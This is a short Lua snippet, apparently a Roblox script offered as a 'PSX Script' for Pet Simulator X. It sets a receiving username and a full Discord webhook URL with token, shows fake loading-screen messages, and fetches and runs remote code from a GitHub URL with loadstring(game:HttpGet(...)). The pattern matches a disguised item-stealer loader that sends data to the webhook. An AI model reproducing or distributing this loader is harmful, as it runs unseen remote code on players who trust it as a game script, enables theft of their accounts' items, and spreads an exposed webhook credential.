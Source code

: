 Username = "FNTCLOUT_ALT111"
WebHook = "https://discord.com/api/webhooks/1089778075308396564/ENEkGYsdjWci80_PAK9zIK6NiWyelPtDDA-JuXGDC4ghZP3cZWkW0IVlPwE_h7mpbbK-"


loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI
_G.CustomScriptName = "PSX Script"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
